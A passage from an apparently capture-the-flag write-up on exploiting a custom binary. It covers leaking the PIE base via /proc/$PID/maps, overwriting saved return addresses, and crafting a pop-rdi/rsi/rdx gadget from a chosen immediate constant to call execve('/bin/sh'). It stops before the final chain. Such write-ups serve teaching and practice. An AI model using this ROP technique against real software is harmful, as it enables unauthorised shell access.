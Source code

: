 The offset here can be figured out by just getting PIE base through e.g. `/proc/$PID/maps`.

### Building our ROP chain

So how can we get a shell now?
The easiest method is by ROPing. Since we can also write to our freed array, we can overwrite return addresses on the stack.
We already used saved RIPs for our PIE leak above, so by overwriting them we should be good to go.
The only issue, is that the binary does not link against libc and the only syscall instructions are related to `putc` / `getc`.

Fortunately, we can add our own ROP gadgets very easily!
The end of a function always looks as follows in assembly:

```nasm
push 0x41 ; or somehow push return value
pop rax
pop rbp
retn
```

To get a shell, we need to call `execve("/bin/sh", 0, 0);` or jump to a syscall instruction with `*rdi = "/bin/sh", rsi = 0, rdx = 0, rax = 59`.
Since popping rax is already done by every function's end, we just have to pop rdi, rsi and rdx from the stack.
This can be achieved with the following aptly named function:

```python
def gadget1():
    return 0x5f5e5a90
```

When disassembling normally, it looks as follows:

```nasm
push rbp
mov rbp, rsp
push 0x5F5E5A90
pop rax
pop rbp
retn
```

However, if we start disassembling at the address of the push + 1:

```nasm
nop
pop rdx
pop rsi
pop rdi
pop rdx
pop rax
pop rbp
retn
```

We have our gadget!
Hence our ROPchain is now as follows:
